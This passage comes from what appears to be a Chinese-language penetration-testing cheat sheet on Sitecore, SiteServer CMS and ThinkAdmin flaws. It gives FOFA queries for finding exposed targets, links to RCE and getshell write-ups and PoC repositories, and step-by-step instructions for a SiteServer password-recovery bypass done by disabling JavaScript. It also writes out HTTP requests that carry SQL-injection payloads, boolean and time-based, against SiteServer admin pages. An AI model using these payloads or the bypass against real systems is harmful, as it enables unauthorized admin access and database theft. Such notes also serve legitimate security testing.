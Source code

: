 
### Sitecore

> fofa : "Sitecore Experience Platform"

**Sitecore rce**
- 相关文章
    - [Sitecore Experience Platform Pre-Auth RCE](https://blog.assetnote.io/2021/11/02/sitecore-rce/)

---

### SiteServer

**相关文章**
- [代码审计 | SiteServerCMS身份认证机制](https://www.freebuf.com/vuls/228448.html)
- [代码审计 | SiteServerCMS密钥攻击](https://www.freebuf.com/vuls/234549.html)

**找回密码**

管理员的 “密码找回问题答案” 为非强制项，一般都留空。此时如果在密码找回页面，输入空密码找回答案，就可以获得当前管理员的密码明文（页面有做 javascript 限制答案长度不能为 0，但禁用 javascript 即可绕过）

访问 /siteserver/forgetPassword.aspx, 然后禁止 Javascript。输入用户名，获取密码

**6.8.3 验证码绕过 & 后台多处注入**
- 相关文章
    - [某Server CMS最新6.8.3版本验证码绕过&后台多处注入](https://xz.aliyun.com/t/4119)

- POC | Payload | exp
    ```
    POST /api/v1/administrators/actions/login HTTP/1.1
    {"account":"admin","password":"7fef6171469e80d32c0559f88b377245","isAutoLogin":true}
    ```
    ```
    GET /SiteServer/settings/pageAdministrator.aspx?areaId=0&departmentId=0&keyword=1&lastActivityDate=3&order=1%2C(select%20case%20when%20(3*2*1=6%20AND%2000043=00043)%20then%201%20else%201*(select%20table_name%20from%20information_schema.tables)end)=1&pageNum=50&roleName= HTTP/1.1

    GET /SiteServer/settings/pageUser.aspx?creationDate=0&groupId=-1&keyword=&lastActivityDate=0&loginCount=0&pageNum=0&searchType=if(now()=sysdate()%2Csleep(0)%2C0) HTTP/1.1
    ```

**SiteServer CMS 远程模板下载 Getshell 漏洞**
- 相关文章
    - [简记野生应急捕获到的siteserver远程模板下载Getshell漏洞](https://www.freebuf.com/articles/web/195105.html)

- POC | Payload | exp
    - [zhaoweiho/SiteServer-CMS-Remote-download-Getshell](https://github.com/zhaoweiho/SiteServer-CMS-Remote-download-Getshell)

---

### ThinkAdmin

> 项目地址 : https://github.com/zoujingli/ThinkAdmin

**ThinkAdminV6 任意文件操作 CVE-2020-25540**
- 相关文章
    - [ThinkAdminV6 未授权访问and 任意文件查看 漏洞复现](https://blog.csdn.net/Adminxe/article/details/108744912)
